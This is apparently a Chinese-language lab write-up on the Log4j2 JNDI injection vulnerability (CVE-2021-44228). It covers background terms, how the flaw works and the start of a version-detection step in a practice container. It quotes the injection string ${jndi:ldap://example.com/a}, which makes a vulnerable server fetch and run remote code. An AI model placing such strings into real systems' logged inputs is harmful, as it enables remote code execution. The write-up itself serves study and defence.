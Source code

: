 1. 关键词

看到一些不太熟悉的名词，先了解一下：
- [`Log4j2`](https://github.com/apache/logging-log4j2)：Apache Log4j2 是 Java 平台上的一个开源日志框架，它是 Log4j 的下一代版本，提供了更为高效且灵活的日志记录功能。
- [`反弹 Shell`](https://www.imperva.com/learn/application-security/reverse-shell/)：利用目标系统的漏洞来启动 shell 会话，然后访问受害者的计算机。目标是连接到远程计算机并重定向目标系统 shell 的输入和输出连接，以便攻击者可以远程访问它。
- [`ldap`](https://www.redhat.com/en/topics/security/what-is-ldap-authentication)：轻量级目录访问协议 (Lightweight directory access protocol) 是一种帮助用户查找有关组织、个人等的数据的协议。 LDAP 有两个主要目标：将数据存储在 LDAP 目录中并对访问该目录的用户进行身份验证。它还提供应用程序从目录服务发送和接收信息所需的通信语言。目录服务提供对网络中组织、个人和其他数据的信息所在位置的访问。
- [`JNDI`](https://stackoverflow.com/questions/4365621/what-is-jndi-what-is-its-basic-use-when-is-it-used)：Java Naming and Directory Interface 是一个应用程序编程接口(API)，它为使用 Java TM 编程语言编写的应用程序提供命名和目录功能。它被定义为独立于任何特定的目录服务实现。因此，可以通过通用方式访问各种目录（新的、新兴的和已部署的）。

2. 漏洞原理

在 [NIST](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?name=CVE-2021-44228&vector=AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H&version=3.1&source=NIST) 网站中可以看到，按照 CVSS 3.1 的评分标准，该漏洞的评分为10分，是一个极其严重的漏洞。

在 [cloudflare](https://blog.cloudflare.com/zh-cn/inside-the-log4j2-vulnerability-cve-2021-44228-zh-cn/) 的博客中，详细介绍了该漏洞的原理和利用方式：
CVE-2021-44228 是 JNDI 注入漏洞，Log4j2 在日志记录时，支持通过 JNDI 进行查找。例如，日志消息可以包含类似 `${jndi:ldap://example.com/a}` 的字符串，Log4j 会在记录日志时尝试解析这个字符串。
LOG4J2-313 添加了如下所示的 jndi 查找：“JndiLookup 允许通过 JNDI 检索变量。默认情况下，键的前缀将是 java:comp/env/，但是，如果键包含‘:’，则不会添加前缀。”
当键中存在 : 时，如 ${jndi:ldap://example.com/a} 中那样，就不会有前缀，并且会向 LDAP 服务器查询该对象。这些查找可以在 Log4j 的配置中使用以及在记录行时使用。
所以，攻击者只需查找被记录的一些输入，然后添加诸如 ${jndi:ldap://example.com/a} 之类的内容。当 Log4j2 解析这个日志消息时，它会通过 JNDI 向指定的服务器地址发送查找请求。如果攻击者控制的服务器返回一个恶意的 Java 类，这个类会被 Log4j 加载并执行，从而实现远程代码执行（RCE）。

在 [GitHub Gist](https://gist.github.com/SwitHak/b66db3a06c2955a9cb71a8718970c592) 的页面可以看到，由于Log4j广泛用于各种Java应用程序和服务，因此这个漏洞影响范围非常广泛，包括Web服务器、应用程序服务器、邮件服务器等。

#### 漏洞存在性检测

- 确认受漏洞影响组件的版本

进入漏洞靶场容器中找到 `demo.jar`，使用 `docker cp` 命令将其拷贝到本地，然后使用 `jd-gui` 工具查看其源码。

![log4j2_2](../img/lihan3238_doc/log4j2_2.png)
